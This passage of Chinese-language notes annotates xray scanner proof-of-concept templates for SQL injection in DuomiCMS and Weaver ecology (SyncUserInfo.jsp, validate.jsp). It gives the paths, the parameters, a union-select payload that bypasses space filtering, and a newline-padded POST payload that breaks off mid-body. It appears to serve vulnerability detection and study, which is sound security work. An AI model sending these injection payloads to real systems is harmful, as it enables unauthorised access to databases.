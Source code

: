 
- **路径**：`/duomiphp/ajax.php`
- **参数**：`uid`
- **原理：报错注入**  
- **检测**：`md5`运算结果
- **参考**：[github.com/chaitin/xray/blob/master/pocs/duomicms-sqli.yml](https://github.com/chaitin/xray/blob/master/pocs/duomicms-sqli.yml)

---


# 0x07 ecology-syncuserinfo-sqli

- **配置整理**：

    > ## set:  
    >   r1: randomInt(40000, 44800)  
    >   r2: randomInt(40000, 44800)  
    > ## rules:    
    >    - **method: `GET`**  
    >       ```sql
    >         path: >-
    >             /mobile/plugin/SyncUserInfo.jsp
    >                 ?userIdentifiers=-1)
    >                     union(select(3),null,null,null,null,null,str({{r1}}*{{r2}}),null
    >                     
    >         follow_redirects: true
    >         expression: |
    >           response.status == 200 
    >               && response.body.bcontains(bytes(string(r1 * r2)))
    >       ```
    >
    > ## detail:   
    >   author: MaxSecurity([https://github.com/MaxSecurity](https://github.com/MaxSecurity))  

- **路径**：`/mobile/plugin/SyncUserInfo.jsp`
- **参数**：`userIdentifiers`
- **原理：联合查询，括号绕空格过滤**  
- **检测**：语句运算结果
- **参考**：[github.com/chaitin/xray/blob/master/pocs/ecology-syncuserinfo-sqli.yml](https://github.com/chaitin/xray/blob/master/pocs/ecology-syncuserinfo-sqli.yml)

---


# 0x08 ecology-validate-sqli

- **配置整理**：

    > ## set:  
    >   r1: randomInt(8000, 9999)  
    >   r2: randomInt(800, 1000)  
    > ## rules:    
    >    - **method: `POST`**  
    >       ```sql
    >         path: /cpt/manage/validate.jsp?sourcestring=validateNum
    >         body: >-
    >           sourcestring=validateNum
    >               &capitalid=11
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d
    >                   %0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d